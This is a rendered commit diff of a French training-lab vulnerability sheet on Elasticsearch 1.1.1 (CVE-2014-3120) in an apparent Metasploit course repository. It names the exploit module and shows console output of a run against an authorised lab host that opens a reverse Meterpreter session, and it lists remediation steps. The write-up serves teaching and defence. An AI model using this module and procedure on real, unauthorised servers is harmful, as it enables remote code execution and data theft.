

Before and after one commit to Joha12A/metasploit-training-lab-esgis, a Markdown page: docs/vulnerabilites/vuln-06.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Validation et documentation de la vulnérabilité N°06 (Elasticsearch - CVE-2014-3120)

````diff
--- a/docs/vulnerabilites/vuln-06.md
+++ b/docs/vulnerabilites/vuln-06.md
@@ -1,33 +1,70 @@
-# Fiche Vulnérabilité N°06 — Elasticsearch API
+# Fiche Vulnérabilité N°06 — API Elasticsearch
 
 ## 1. Contexte et Identification
-- **Service cible** : Elasticsearch API
-- **Port d'écoute** : `9200/tcp`
-- **Version détectée** : `Elasticsearch 1.1.1`
-- **Référence CVE** : `CVE-2014-3120`
-- **Score CVSS v3** : `7.5 (Élevé)`
-- **Cible autorisée** : ESGIS VulnBox (`10.1.0.1`)
+
+| **Champ** | **Valeur** |
+|---|---|
+| **Service cible** | API Elasticsearch |
+| **Port d'écoute** | `9200/tcp` |
+| **Version détectée** | `Elasticsearch 1.1.1` |
+| **Référence CVE** | `CVE-2014-3120` |
+| **Score CVSS v3** | `7.5 (Élevé)` |
+| **Cible autorisée** | ESGIS VulnBox (`10.1.0.1`) |
+| **Module Metasploit** | `exploit/multi/elasticsearch/script_mvel_rce` |
 
 ## 2. Observations Techniques
-- **Description du composant** : Service identifié via le scan de bannières Nmap (`reports/nmap-services.txt`).
-- **Vecteur d'exposition** : Port réseau direct accessible à travers le tunnel WireGuard (`10.1.0.1`).
-- **Module Metasploit associé** : `exploit/multi/elasticsearch/script_mvel_rce`
+
+- **Description du composant :** Elasticsearch est un moteur de recherche et d'analyse distribué basé sur Apache Lucene. Il expose une API REST sur le port `9200`, permettant d'indexer, de rechercher et de manipuler des données.
+- **Vecteur d'exposition :** Port réseau directement accessible à travers le tunnel WireGuard (`10.1.0.1`).
+- **Contexte de la faille :** Elasticsearch 1.1.1 présente une vulnérabilité liée à l'exécution de scripts dynamiques MVEL via l'API REST. Dans une configuration vulnérable, un attaquant non authentifié peut provoquer l'exécution de code arbitraire sur le serveur, conduisant à une exécution de code à distance (RCE).
 
 ## 3. Preuves Réelles
-> [!NOTE]
-> *Cette section sera complétée uniquement avec les captures d'écran et sorties console obtenues lors de l'exercice encadré.*
 
-- **Capture d'écran de l'analyse** : `screenshots/04-vulnerabilites/vuln-06-exec.png` *(En attente)*
-- **Preuve technique / Résultat** : `screenshots/05-resultats/vuln-06-poc.png` *(En attente)*
-- **Extrait de journal / Sortie console** :
+### 3.1 Configuration du module
+
+- **Capture d'écran :** `screenshots/04-vulnerabilites/06-elasticsearch-options.png`
+
+### 3.2 Exécution et résultat
+
+- **Capture d'écran :** `screenshots/05-resultats/06-elasticsearch-session-poc.png`
+
+**Extrait de la sortie console :**
+
 ```text
-[En attente de vérification sur 10.1.0.1]
+msf exploit(multi/elasticsearch/script_mvel_rce) > run
+
+[*] Started reverse TCP handler on 10.1.0.6:4444
+[*] Trying to execute arbitrary Java...
+[*] Discovering remote OS...
+[+] Remote OS is 'Linux'
+[*] Sending stage (63216 bytes) to 10.1.0.1
+[+] Deleted /tmp/HrRrgM.jar
+[*] Meterpreter session 5 opened (10.1.0.6:4444 -> 10.1.0.1:44890) at 2026-11-07 15:52:58 +0100
 ```
 
+### 3.3 Analyse de l'impact
+
+L'obtention d'une session Meterpreter constitue une preuve d'exécution de code à distance sur le système sous-jacent.
+
+Un attaquant pourrait exploiter cette vulnérabilité pour :
+
+- **Exécuter du code arbitraire :** compromettre le serveur Elasticsearch avec les privilèges du compte exécutant le service.
+- **Accéder aux données indexées :** lire, modifier ou supprimer les données stockées dans Elasticsearch, qui peuvent contenir des informations sensibles.
+- **Compromettre d'autres services :** utiliser le serveur comme point d'appui pour tenter d'accéder à d'autres ressources du réseau interne.
+
 ## 4. Mesures Correctives et Remédiation
-- **Mise à jour logicielle** : Appliquer les correctifs de sécurité fournis par l'éditeur pour la version `Elasticsearch 1.1.1`.
-- **Principe de moindre privilège** : Exécuter le service sous un compte non privilégié.
-- **Filtrage réseau** : Restreindre l'accès au port `9200` aux seuls hôtes d'administration autorisés.
 
----
-**Statut actuel** : ⏳ *En attente de réalisation du test pédagogique*
+- **Mise à jour logicielle :** Mettre Elasticsearch à jour vers une version corrigée (à partir de `1.2.0` pour cette vulnérabilité), ou idéalement vers une version stable encore maintenue.
+
+- **Désactivation des scripts dynamiques :** Pour les anciennes versions concernées, examiner les paramètres de sécurité des scripts dans `elasticsearch.yml`. Le paramètre historique suivant peut être utilisé selon la version :
+
+  ```yaml
+  script.disable_dynamic: true
+  ```
+
+- **Restriction d'accès réseau :** Restreindre l'accès au port `9200` aux seuls hôtes d'administration autorisés, au moyen d'un pare-feu, d'un VPN ou d'un proxy sécurisé.
+
+- **Principe du moindre privilège :** Exécuter Elasticsearch sous un compte utilisateur non privilégié, avec des permissions minimales sur le système de fichiers.
+
+## 5. Conclusion
+
````
Also changed, not shown: other parts of docs/vulnerabilites/vuln-06.md (+5 -0 lines), screenshots/04-vulnerabilites/06-elasticsearch-options.png (added), screenshots/05-resultats/06-elasticsearch-session-poc.png (added).
